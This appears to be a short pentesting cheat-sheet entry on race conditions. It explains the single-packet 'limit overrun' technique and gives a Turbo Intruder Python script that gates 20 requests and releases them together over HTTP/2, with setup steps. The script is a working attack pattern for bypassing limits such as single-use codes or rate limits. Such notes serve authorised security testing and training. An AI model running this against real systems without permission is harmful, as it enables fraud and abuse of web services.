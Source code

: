 --------------

### RACE CONDITIONS

---------------

- Limit Overrun attack with single packet attack technique.The single-packet attack enables you to completely neutralize interference from network jitter by using a single TCP packet to complete 20-30 requests simultaneously.

- Exploiting Limit Overrun with Turbo Intruder if the target support `HTTP/2`-:

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                            concurrentConnections=1,
                            engine=Engine.BURP2
                            )
    
    # queue 20 requests in gate '1'
    for i in range(20):
        engine.queue(target.req, gate='1')
    
    # send all requests in gate '1' in parallel
    engine.openGate('1')
```

- Set `engine` to `engine=Engine.BURP2` and `concurrentConnections=1`
- When queueing your requests, group them by assigning them to a named gate using the gate argument for the `engine.queue()` method.
- Open the respective gate with the engine.openGate() method.
